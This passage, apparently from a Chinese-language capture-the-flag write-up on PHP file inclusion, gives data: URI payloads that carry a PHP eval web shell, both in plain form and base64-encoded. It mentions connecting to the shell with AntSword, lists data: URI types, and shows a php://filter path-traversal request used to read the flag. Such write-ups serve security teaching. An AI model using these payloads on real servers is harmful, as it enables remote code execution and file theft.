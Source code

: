 ```

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

这里我们用

```
?file=php://filter/read=convert.base64-encode/resource=..././..././..././..././flag
```

得到base64

![image-20240124130533543](照片/image-20240124130533543.png)
